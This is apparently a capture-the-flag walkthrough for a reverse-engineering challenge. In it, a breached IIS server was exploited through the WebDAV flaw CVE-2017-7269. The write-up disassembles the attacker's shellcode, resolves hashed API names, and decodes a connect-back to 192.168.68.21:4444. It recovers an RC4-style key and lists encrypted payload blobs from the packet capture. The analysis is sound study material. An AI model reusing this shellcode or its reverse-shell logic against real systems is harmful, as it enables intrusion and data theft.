

# 7 - Re crowd

## Description

Hello,

Here at Reynholm Industries we pride ourselves on everything.
It's not easy to admit, but recently one of our most valuable servers was breached. 
We don't believe in host monitoring so all we have is a network packet capture.
We need you to investigate and determine what data was extracted from the server, if any.

Thank you

## Walkthrough


Wireshark filter:
http.request.method == PROPFIND



CVE 2017-7269


```
$ python3 brute_force_hashes.py kernel32_exports.txt kernel32.dll

Occurrence found! The decrypted hash 0x726774c is: LoadLibraryA
No occurrence found for hash 0x6b8029!
No occurrence found for hash 0xe0df0fea!
No occurrence found for hash 0x6174a599!
Occurrence found! The decrypted hash 0x56a2b5f0 is: ExitProcess
No occurrence found for hash 0x5fc8d902!
Occurrence found! The decrypted hash 0xe553a458 is: VirtualAlloc
```

```
$ python3 brute_force_hashes.py ws2_32_exports.txt ws2_32.dll

No occurrence found for hash 0x726774c!
Occurrence found! The decrypted hash 0x6b8029 is: WSAStartup
Occurrence found! The decrypted hash 0xe0df0fea is: WSASocketA
Occurrence found! The decrypted hash 0x6174a599 is: connect
No occurrence found for hash 0x56a2b5f0!
Occurrence found! The decrypted hash 0x5fc8d902 is: recv
No occurrence found for hash 0xe553a458!
```

```
seg000:000000F9 6A 05                                push    5
seg000:000000FB 68 C0 A8 44 15                       push    1544A8C0h
seg000:00000100 68 02 00 11 5C                       push    5C110002h
seg000:00000105 89 E6                                mov     esi, esp
seg000:00000107
seg000:00000107                      loc_107:                                ; CODE XREF: sub_C6+53↓j
seg000:00000107 6A 10                                push    10h
seg000:00000109 56                                   push    esi
seg000:0000010A 57                                   push    edi
seg000:0000010B 68 99 A5 74 61                       push    6174A599h       ; connect
seg000:00000110 FF D5                                call    ebp
```

As we can see, it uses a sockaddr struct to pass the host information. This struct is composed by:

```
struct sockaddr_in {
        short   sin_family;		-> 2 bytes
        u_short sin_port;		-> 2 bytes
        struct  in_addr sin_addr;
        char    sin_zero[8];
};
```

The struct value of the shellcode is:

```
1544A8C05C110002h
```

This can be decomposed as follows (take in mind endianness):

```
0002	-> AF_INET
115C	-> 4444
C0	-> 192
A8	-> 168
44	-> 68
15	-> 21
```

So now, we have the port and the IP address:

```
192.168.68.21:4444
```


```
0x524F584B ^ 0x83576643 = 0xD1183E08
0x524F584B ^ 0x43665783 = 0xD1183E08
```


Pass

```
6B696C6C657276756C74757265313233 = killervulture123
```

```
seg000:00000181 5E                                   pop     esi			-> ESI = KEY
seg000:00000182 31 C0                                xor     eax, eax		-> EAX = 0
seg000:00000184
seg000:00000184                      loc_184:
seg000:00000184 AA                                   stosb				-> BUFFER[0x100] = AL
seg000:00000185 FE C0                                inc     al			-> AL = AL + 1
seg000:00000187 75 FB                                jnz     short loc_184		-> IF AL != 0 -> continue
seg000:00000189 81 EF 00 01 00 00                    sub     edi, 100h		-> EDI = base address of the encrypted buffer
seg000:0000018F 31 DB                                xor     ebx, ebx		-> EBX = 0
seg000:00000191
seg000:00000191                      loc_191:
seg000:00000191 02 1C 07                             add     bl, [edi+eax]		-> BL = BUFFER[EAX]
seg000:00000194 89 C2                                mov     edx, eax			-> EDX = EAX
seg000:00000196 80 E2 0F                             and     dl, 0Fh			-> DL = DL AND 0xF
seg000:00000199 02 1C 16                             add     bl, [esi+edx]		-> BL = BL + KEY[EDX]
seg000:0000019C 8A 14 07                             mov     dl, [edi+eax]		-> DL = BUFFER[EAX]
seg000:0000019F 86 14 1F                             xchg    dl, [edi+ebx]		-> DL = BUFFER[EBX] | BUFFER[EBX] = DL
seg000:000001A2 88 14 07                             mov     [edi+eax], dl		-> BUFFER[EAX] = DL
seg000:000001A5 FE C0                                inc     al				->	AL = AL + 1
seg000:000001A7 75 E8                                jnz     short loc_191
```

```
seg000:000001AB                      loc_1AB:
seg000:000001AB FE C0                                inc     al			-> AL = AL + 1
seg000:000001AD 02 1C 07                             add     bl, [edi+eax]			-> BL = BL + BUFFER[EAX]
seg000:000001B0 8A 14 07                             mov     dl, [edi+eax]			-> DL = BUFFER[EAX]
seg000:000001B3 86 14 1F                             xchg    dl, [edi+ebx]			-> DL = BUFFER[EBX] | BUFFER[EBX] = DL
seg000:000001B6 88 14 07                             mov     [edi+eax], dl			-> BUFFER[EAX] = DL
seg000:000001B9 02 14 1F                             add     dl, [edi+ebx]			-> DL = DL + BUFFER[EBX]
seg000:000001BC 8A 14 17                             mov     dl, [edi+edx]			-> DL = BUFFER[EDX]
seg000:000001BF 30 55 00                             xor     [ebp+0], dl     ; ebp = encrypted buffer base address
seg000:000001C2 45                                   inc     ebp			-> 
seg000:000001C3 49                                   dec     ecx			-> 
seg000:000001C4 75 E5                                jnz     short loc_1AB
```

```
init C:\Users\L3cr0f\Desktop\Binaries\7_-_re_crowd\blobrunner.exe,C:\Users\L3cr0f\Desktop\Binaries\7_-_re_crowd\decoded_shellcode_modified.bin
init C:\ProgramData\chocolatey\bin\shellcode_launcher.exe,-i,C:\Users\L3cr0f\Desktop\Binaries\7_-_re_crowd\shellcode_calc.bin
```


0x524F584B ^ 0x524F5C9C = 0x4D7 = 1239

290
9c 5c 4f 52 a4b1037390e4c88e97b0c95bc630dc6abdf4203886f93026afedd0881b924fe509cd5c2ef5e168f8082b48daf7599ad4bb9219ae107b6eed7b6db1854d1031d28a4e7f268b10fdf41cc17fab5a739202c0cb49d953d6df6c0381a021016e875f09fe9a699435844f01966e77eca3f3f52f6a3636ab4775b580cb47bd9f7638a54048579c36ad8e7945a320faed1f1849b88918482b5b6feef4c3d6dccc84eab10109b1314ba4055098b073ae9c14101b65bd93826c57b9757a2aeede10fb39ba96d0361fc2312cc54f33a513e1595692c51fa54e0e626edb5be87f8d01a67d012b02431f54b9bcd5ef2db3daef3dd068fedade60b117feea204a2ca1bba1b5c51292a9dbf111e38c58badc3d288666c86d0eabfa83d5246010681dc7afc7ac4513a3d972e7cc5179f567417cae7fc87e954609f6ef4b4502745210501cb76a7ceb00d759c3290237d0472e1e3af7e6ac821474eb4f6b572213f6f248d66bcbb4eda73268cbd06642d3c5f2c537df7d9f9f28c0743abeb8c0a773d0bbfa507c101edab123d6c481a5d3b62229096b21a65c38c6803dbe0823c7b11f6de6646695dc10a71342cd3bfadcda148dd05ac88135542fb5dc61d6287788c55870b52fcfea4f4d85560407f39074ce5d3c8a2b06b49fe66d79c06e3dd83e2008b7743d3699cd7f607d9cc9b3ad0c8e456dea3ddd091dda0b3a1cfccb8148ed5afacef8c623b01e2644a3d9ab0ed598b133655ded6ad3237f024ab3a2f81d7ed12f5fbe89615e2ce4b89619e549764e7ae892a370556f7d3cf9c1364469337ddf7937b8e0aae86a5dc93b180f4e283a31a87fefb819ac3663e889214d83a77e5703489be1279306e43b675fe56950003e8b01b7efa6b54b3682d4fb9fde8b27cca457ce2537445042f77ea2bf4fdf0f72d8664a3ef5c8262ac5887b97ab235b2b61d83f00370e7e14fafd7df78149c2a1851bd028bea524fd60b278274eace8793b3b7adc56d076c5010fcf43b5d45f4870bdac6576db113b5bcf9c528b001e83f1fa925b7779076ae0d4339a71ba24a5a5c8eb4c01b3d3cd2c228c0b4ccd2d5a8c9ab167707f7596e256c11dff057e77a2bae59aaef9f8b2f178d2b1dce903c2d4ff1f66cdb047f0b4d1f672fa1eb7f14de76e4210ec5d9430dd7f751c014546b6146cf7453658eceff337049c21eb9454a3fe23cbbb315c6275bded2790fe9117e2ae429b7904d15cefcd4b86934a74412dad0b351d81fd102c8efd8c681df5450ab5b409be0efafad2f74e58d83c1a1b113d992553ab78ac5449bb2a42b38066b563e290f8a58f37af97132be8fc5d4b718b4d9fc8ec07281fcb30921e6ddcb9de94b8e9cb5af7a2b0bb0fc338b727331be9bf452d863e346d12f6051227c528e4d261267e992b3f1f034d7972b983566d8e8233c209eb214a0c13adea291b58da10164320557df4b7fc2634688ba054af07d5d523b523b8fb07c6644a567fa06d867c333b23b79d9ca822b1799f00e776e9c768ae5c23ae9fc6459148836fbf0ad8c977ab2c2d8547bfe9818013d9dc1c210ff4c7790752a8068c576353b2fb7dbe6c1aae2ebdc6fd970a04edc0a30545db9b62bd34a9082553009036cfd96315a5f7f8e0d869fd7924607ba2aebdf2b4b9c2088465a96deba5d872a7b65921b9f411125d391d15756d8a2f58c2fc80025178a9fc7dde0d85a55718f8f0cc8e4c5ed76558744e8a4433a224e3565768babbf2b23298f1882ec3

294
43665783 a5238977beac1b1f878f58933f24cf2cd39aa8d111c4bca67fcd38dbb33c034babf560c560d20d1d1888415b4f06176c9e0b01739d836018fa8bfff84d78b2a4246faebd92d1eccc2d7c8bbfd08cbde245ef15b288bca459be20acf957df10babcd911934119009c0225efc44a26fd25ca9b8519644ec5849fa100182c6830dc704cfe83f1c7002b497a830905776e0a088d56e4387e880f2c41e43366c9bc06aa2aa1962d94c008161ea4f2811a83f77cb57d6313004196ca6980ae49e95d0f7d8943d4891a01b46161
